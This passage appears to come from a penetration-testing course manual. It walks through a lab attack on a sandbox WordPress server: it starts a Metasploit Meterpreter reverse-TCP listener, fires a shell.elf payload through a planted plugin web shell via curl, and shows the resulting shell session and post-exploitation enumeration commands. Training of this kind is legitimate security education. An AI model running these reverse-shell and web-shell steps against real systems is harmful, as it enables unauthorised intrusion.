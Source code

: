  
 At this point, the shell should be executable. Next, we will start a meterpreter payload listener onthe appropriate interface and port.
 
 kali@kali:~$ sudo msfconsole -q -x "use exploit/multi/handler;\
> set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
> set LHOST 10.11.0.4;\
> set LPORT 443;\
> run"
PAYLOAD => linux/x86/meterpreter/reverse_tcp
LHOST => 10.11.0.4
LPORT => 443
[*] Started reverse TCP handler on 10.11.0.4:443
 
 In the msfconsole command above, we are having Metasploit start quietly (-q) and immediatelyconfigure the payload handler via the -x option, passing the same payload settings we used whengenerating the shell.
 
 With our listener running, it’s finally time to obtain a reverse shell. This can be done by executingthe shell.elf file via the malicious WordPress plugin we installed previously.
 
 kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.ph
p?cmd=./shell.elf
 
 Returning to our listener, we should see that we have captured a shell.
 
 [*] Sending stage (985320 bytes) to 10.11.1.250
[*] Meterpreter session 1 opened (10.11.0.4:443 -> 10.11.1.250:53768) at 19:54:41
meterpreter > shell
Process 9629 created.
Channel 1 created.
whoami
www-data
exit
meterpreter >

 
 Now that we have a shell on the WordPress machine, we will move on to post-exploitationenumeration.
24.2.6 Post-Exploitation Enumeration

24.2.6 Post-Exploitation Enumeration

• First, let’s gather some basic information about the host such as network configuration, hostname,OS version, etc.

meterpreter > shell
Process 6667 created.
Channel 3 created.
ifconfig
ens160 Link encap:Ethernet HWaddr 00:50:56:8a:82:85
 inet addr:10.4.4.10 Bcast:10.4.4.255 Mask:255.255.255.0
 inet6 addr: fe80::250:56ff:fe8a:8285/64 Scope:Link
 UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
  RX packets:29154 errors:0 dropped:22 overruns:0 frame:0
 TX packets:176526 errors:0 dropped:0 overruns:0 carrier:0
 collisions:0 txqueuelen:1000
 RX bytes:8327519 (8.3 MB) TX bytes:13590061 (13.5 MB)
...
hostname
ajla
cat /etc/issue
Ubuntu 16.04 LTS \n \l
cat /proc/version
Linux version 4.4.0-21-generic (buildd@lgw01-21) (gcc version 5.3.1 20160413 (Ubuntu 5
.3.1-14ubuntu2) ) #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016
 